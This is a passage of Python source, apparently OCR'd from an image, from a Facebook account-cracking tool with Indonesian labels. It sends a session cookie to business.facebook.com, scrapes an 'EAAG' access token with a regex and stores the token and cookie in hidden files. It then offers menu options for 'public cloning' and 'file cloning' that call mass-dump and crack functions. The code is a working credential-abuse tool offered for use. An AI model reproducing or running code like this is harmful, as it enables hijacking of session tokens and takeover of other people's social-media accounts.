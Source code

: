                  data = requests.get("https://business.facebook.com/business_locations", headers = {"user-agent": "Mozilla/5.0 (Linux; Android 9; XIAOMI Mi Note 10 Pro Build/NMF26F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.15.0","referer": "https://www.facebook.com/","host": "business.facebook.com","origin": "https://business.facebook.com","upgrade-insecure-requests" : "1","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","cache-control": "max-age=0","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8","content-type":"text/html; charset=utf-8"}, cookies = {"cookie":cookie})  
                 find_token = re.search("(EAAG\w+)", data.text) 
                 ken=open(".token.txt", "w").write(find_token.group(1)) 
                 cok=open(".cok.txt", "w").write(cookie) 
                 print(f'  {u}[{h}PR4MODED1TZ{u}]{h} LOGIN DONE.........RUN AGAIN!!!!{k} ');time.sleep(1) 
                 exit() 
         except Exception as e: 
                 os.system("rm -f .token.txt") 
                 os.system("rm -f .cok.txt") 
                 print(f'  %s[%sx%s]%s LOGIN ERROR....TRY AGAIN !!%s'%(x,k,x,m,x)) 
                 exit() 
 #------------------[ BAGIAN-MENU ]----------------# 
 def menu(my_name,my_id): 
         try: 
                 token = open('.token.txt','r').read() 
                 cok = open('.cok.txt','r').read() 
         except IOError: 
                 print('[×] INVIALD COOKIE ') 
                 time.sleep(5) 
                 login_lagi334() 
         os.system('clear') 
         banner() 
         ip = requests.get("https://api.ipify.org").text 
         alvino_xy(f'{u} ID : '+str(my_id)) 
         alvino_xy(f'{h} IP : {ip}') 
         print('') 
         cetak('[bold green] 1. PUBLIC CLONING\n 2. FILE CLONING\n 3. CHECK RESULTS\n 0. EXIT [bold green]') 
         _____cowok__pink_____ = input('\n CHOOSE : ') 
         if _____cowok__pink_____ in ['1']: 
                 dump_massal() 
         elif _____cowok__pink_____ in ['2']: 
                 crack_file() 
         elif _____cowok__pink_____ in ['3','03']: 
                 result() 
         elif _____cowok__pink_____ in ['0']: 
                 os.system('rm -rf .token.txt') 
                 os.system('rm -rf .cookie.txt') 
                 print('#DONE LOGOUT ') 
                 exit() 
         else: 
                 print('# SELECT CORRECTLY ') 
                 back() 
 def error(): 
         print(f'{k}#TRY AGAIN {u}') 
         time.sleep(4) 
         back() 
          